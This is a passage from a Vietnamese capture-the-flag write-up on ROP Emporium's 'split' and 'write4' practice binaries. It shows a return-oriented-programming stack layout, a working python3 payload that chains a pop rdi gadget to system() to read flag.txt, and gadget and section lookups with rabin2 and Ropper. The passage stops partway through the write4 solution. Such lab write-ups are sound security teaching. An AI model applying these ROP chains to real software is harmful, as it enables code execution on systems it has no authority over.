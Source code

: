 Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x4007c3] -> pop rdi; ret;
  [0x601060] -> .data   ascii "/bin/cat flag.txt" -> arg1
  [0x40053e] -> ret;
  [0x400560] -> system();
```

Truyền payload vào binary

```text-plain
python3 -c "import sys;sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00' + b'\x00'*4 + b'\x60\x10\x60\x00' + b'\x00'*4 + b'\x3e\x05\x40\x00' + b'\x00'*4 + b'\x60\x05\x40\x00' + b'\x00'*4)" | ./split
```

## Write4

Challenge 4 sẽ hướng dẫn một kỹ thuật chính là **write-what-where gadgets,** nơi ta sẽ ghi nội dung bất kỳ vào vị trí nào đó trong memory

Gadget này sẽ có dạng `mov [reg2], reg1` nơi ta sẽ ghi nội dung của thanh ghi reg1 vào địa chỉ lưu trong thanh ghi reg2

Ở bài này ta có sẵn function print_file(\*arg1) nhận giá trị tại địa chỉ của arg1 và truyền vào hàm fopen và mở file đó ra, do đó ta cần khiến thanh ghi `rdi` lưu địa chỉ mà tại đó chứa tên chuỗi “flag.txt” là được

![](images/Write4/image.png)

Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i write4
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S write4
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f write4
...
```